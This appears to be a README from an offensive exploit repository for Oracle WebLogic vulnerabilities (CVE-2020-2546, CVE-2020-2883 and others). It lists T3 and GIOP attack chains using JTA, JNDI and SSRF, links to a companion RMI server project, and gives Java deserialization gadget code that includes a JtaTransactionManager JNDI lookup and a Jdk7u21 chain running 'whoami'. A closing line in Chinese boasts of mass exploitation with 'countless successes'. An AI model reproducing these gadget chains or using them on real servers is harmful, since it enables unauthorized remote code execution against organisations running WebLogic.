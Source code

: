 # Weblogic 1day
CVE_2020_2546 CVE-2020-2915 CVE-2020-2801  CVE-2020-2798  CVE-2020-2883 CVE-2020-2884 CVE-2020-2950 WebLogic T3 payload exploit pot python3

# exploit
- GIOP + send bind (CVE-2020-2555 or others)
- GIOP + send jta (rmi or others)
- GIOP + send jta + ssrf
- T3 + send jta
- T3 + send jta + ssrf

#### rmi server,see
https://github.com/hktalent/CVE-2020-2551

### code n1
```
MVEL.compileExpression
MvelExtractor o = new MvelExtractor("xxx;");
		ObjectOutputStream oo = new ObjectOutputStream(System.out); 
		oo.writeObject(o);
		oo.flush();
```

### code1
```
public MsgOutput getObject(final String command) throws Exception {
	  String jndiAddress = command;
		JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
		jtaTransactionManager.setUserTransactionName(jndiAddress);
		MsgOutput remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), MsgOutput.class);
    return remote;
  }
```

### code2
```
public IORDelegate getObject(final String command) throws Exception {
IORDelegate ior = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", new Jdk7u21().getObject("whoami")), IORDelegate.class);
    return ior;
  }
```

## CVE-2020-2546 payload
#### 批量一波，成功无数
<img width="621" alt="image" src="https://user-images.githubusercontent.com/18223385/75693161-8c550300-5ce1-11ea-9c28-3e81a6c72d28.png">



